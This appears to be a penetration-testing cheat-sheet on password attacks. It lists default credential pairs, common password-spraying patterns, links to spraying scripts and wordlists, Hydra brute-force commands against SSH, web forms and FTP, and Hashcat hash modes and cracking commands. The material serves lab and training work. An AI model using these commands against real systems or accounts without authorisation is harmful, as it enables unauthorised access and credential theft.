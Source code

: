 ```bash
root:root
root:toor
$MachineName:$MachineName
admin:$MachineName
root:$MachineName
$MachineName:password
WHATEVER:(blank)
```

## Password Spraying Cases

[https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1](https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1)

* The current season followed by the current year (SeasonYear). For example, **Fall2020**, **Spring2021**, etc.
* The current month followed by the current year (MonthYear). For example, **November2020**, **March2021**, etc.
* Using the company name along with random numbers (CompanyNameNumbers). For example, TryHackMe01, TryHackMe02.

## Wordlists

```bash
https://github.com/clem9669/wordlists
# Usernames
https://github.com/funkandwagnalls/pythonpentest/blob/master/username_generator.py
```

## Hydra

{% code overflow="wrap" %}
```bash
hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
hydra #Supported modules by THC-Hydra
hydra http-form-post -U #Additional information about the http-form-post module
hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -fb
:F=Login failed # what we see when login fails
:S=logout.php # word we see on the source code when it is successful

# Use user:pass wordlist file to crack
hydra -C combine.txt -f ftp://$IP 
```
{% endcode %}

## Hashcat

{% code overflow="wrap" fullWidth="true" %}
```bash
0       MD5
400     phpass
600     PHP
1000 	NTLM
5600    NetNTLMv2
13100 	Keberos etype 23
2100  	Mscache DCC2


# Better to use it on OS host (quicker with GPU, compatible with Windows)
hashcat -m $MODE $HASH $DICT
hashcat.exe -m 1800 -a 0 -o cracked.txt hash.txt rockyou.txt # sha512
# -m hash type (MD5, sha1...) -a 0 --> dict attack -o outputfile once cracked
```